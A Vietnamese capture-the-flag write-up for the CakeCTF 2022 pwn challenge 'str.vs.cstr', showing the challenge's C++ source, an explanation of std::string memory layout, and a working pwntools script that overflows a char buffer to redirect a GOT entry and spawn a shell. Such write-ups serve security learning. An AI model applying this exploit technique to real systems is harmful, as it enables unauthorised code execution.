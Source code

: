 # 🎂str.vs.cstr (Pwn)

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Cheksec </p></figcaption></figure>

Bài này đã đưa sẵn mã nguồn để ta phân tích

{% code title="main.cpp" lineNumbers="true" %}
```c
#include <array>
#include <iostream>

struct Test {
  Test() { std::fill(_c_str, _c_str + 0x20, 0); }
  char* c_str() { return _c_str; }
  std::string& str() { return _str; }

private:
  __attribute__((used))
  void call_me() {
    std::system("/bin/sh");
  }

  char _c_str[0x20];
  std::string _str;
};

int main() {
  Test test;

  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "1. set c_str" << std::endl
            << "2. get c_str" << std::endl
            << "3. set str" << std::endl
            << "4. get str" << std::endl;

  while (std::cin.good()) {
    int choice = 0;
    std::cout << "choice: ";
    std::cin >> choice;

    switch (choice) {
      case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;

      case 2: // get c_str
        std::cout << "c_str: " << test.c_str() << std::endl;
        break;

      case 3: // set str
        std::cout << "str: ";
        std::cin >> test.str();
        break;

      case 4: // get str
        std::cout << "str: " << test.str() << std::endl;
        break;

      default: // otherwise exit
        std::cout << "bye!" << std::endl;
        return 0;
    }
  }
  
  return 1;
}

```
{% endcode %}

Bài này khá dễ =]].  Nhìn qua ta thấy chỉ cần ghi đè \_str thành một địa chỉ nào đó( buffer overflow ở case 1 ) rồi ghi giá trị ở case 3.

<figure><img src="../../.gitbook/assets/2022-09-06-211409_402x203_scrot (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-09-06-211449_1870x944_scrot.png" alt=""><figcaption><p>ở đây mình ghi đè thành 0x4242424242424242 nên bị seg fault.</p></figcaption></figure>

Nhưng khoan, rút cuộc C++ string hoạt động như thế nào ? sao lại chỉ cần ghi đè mỗi 8 byte đầu là được :thinking:

Sau nhiều lần search google và debug mình thấy...

<figure><img src="../../.gitbook/assets/2022-09-06-213404_666x524_scrot.png" alt=""><figcaption></figcaption></figure>

... 8 byte đầu sẽ là con trỏ đến mảng kí tự, 8 byte sau là size, 8 byte tiếp nữa là capacity ( đọc qua có vẻ là kích thước được cấp phát).

&#x20;Tiếp tục vào vấn đề, giờ mình sẽ chọn ghi đè char\_ostream\_got trỏ về call\_me.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *
from time import sleep
offset=0x20
call_me=0x00000000004016de
char_ostream_got=0x404048
e=ELF("./chall")
p=remote("pwn1.2022.cakectf.com",9003)
p.sendline(b"1")
sleep(1)
p.sendline(b"A"*offset+p64(char_ostream_got))
sleep(1)
p.sendline(b"3")
sleep(1)
p.sendline(p64(call_me))
p.interactive()

```
{% endcode %}

<figure><img src="../../.gitbook/assets/2022-09-06-214126_690x417_scrot.png" alt=""><figcaption></figcaption></figure>

Flag `CakeCTF{HW1: Remove "call_me" and solve it / HW2: Set PIE+RELRO and solve it}`

Hmm, có lẽ lúc nào đó mình sẽ thử làm như flag này nói :thinking:.

Vài trang để tìm hiểu về C++ string:

{% embed url="https://gcc.gnu.org/onlinedocs/gcc-12.2.0/libstdc++/api/a05666.html" %}

{% embed url="https://medium.com/obscure-system/understanding-storage-of-strings-in-c-part-1-stack-or-heap-98b15cded7ce" %}
